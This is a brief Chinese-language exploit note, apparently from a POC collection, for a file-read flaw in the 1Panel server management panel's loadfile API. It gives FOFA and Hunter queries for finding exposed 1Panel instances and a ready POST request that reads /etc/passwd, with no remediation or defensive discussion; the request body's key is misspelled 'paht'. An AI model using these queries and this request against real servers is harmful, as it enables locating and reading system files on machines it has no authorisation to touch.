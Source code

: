 # 1Panel loadfile 后台文件读取漏洞

## 网络测绘

fofa: app="1Panel-面板" || "1Panel"

hunter: web.title="1Panel"

## POC / EXP

```
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```